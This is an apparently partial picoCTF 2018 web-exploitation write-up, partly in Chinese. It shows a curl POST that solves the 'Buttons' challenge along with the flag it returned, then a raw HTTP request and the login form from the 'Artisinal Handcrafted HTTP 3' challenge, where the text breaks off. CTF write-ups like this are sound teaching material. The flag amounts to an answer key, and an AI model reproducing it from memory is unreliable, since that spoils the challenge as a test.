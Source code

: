 ```python
```

#  Web Exploitation

## Buttons

```bash
curl http://2018shell2.picoctf.com:65107/button2.php --data "123"
Well done, your flag is: picoCTF{button_button_whose_got_the_button_91f6f39a}
```

## Artisinal Handcrafted HTTP 3

先请求一下login页面：

```http
GET /login HTTP/1.1
Host: flag.local


```

发现表单是这样的：

```php
HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 498
etag: W/"1f2-UE5AGAqbLVQn1qrfKFRIqanxl9I"
date: Sun, 07 Oct 2018 18:33:21 GMT
connection: close


		<html>
			<head>
				<link rel="stylesheet" type="text/css" href="main.css" />
			</head>
			<body>
				<header>
					<h1>Real Business Internal Flag Server</h1>
					<a href="/login">Login</a>
				</header>
				<main>
					<h2>Log In</h2>
					
					<form method="POST" action="login">
						<input type="text" name="user" placeholder="Username" />
						<input type="password" name="pass" placeholder="Password" />
						<input type="submit" />
					</form>
				</main>
			</body>
		</html>

```
